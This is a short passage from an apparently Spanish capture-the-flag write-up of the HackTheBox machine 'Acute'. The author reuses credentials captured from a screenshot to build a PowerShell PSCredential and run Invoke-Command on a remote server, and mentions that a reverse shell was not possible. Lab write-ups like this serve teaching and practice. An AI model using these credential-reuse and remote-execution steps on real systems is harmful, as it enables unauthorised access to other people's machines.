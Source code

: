 Llega un punto en el que se ve como teclee credenciales

<img src="/writeups/assets/img/Acute-htb/11.png" alt="">

Puedo ejecutar comandos como este usuario

```null
PS C:\Windows\System32\spool\drivers\color> $SecPass = ConvertTo-SecureString 'W3_4R3_th3_f0rce.' -AsPlainText -Force
PS C:\Windows\System32\spool\drivers\color> $Cred = New-Object System.Management.Automation.PSCredential('acute\imonks', $SecPass)
PS C:\Windows\System32\spool\drivers\color> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { whoami }
acute\imonks
```

Estoy en una sesión muy limitada, por lo que no me puedo enviar una reverse shell. Puedo ver la primera flag
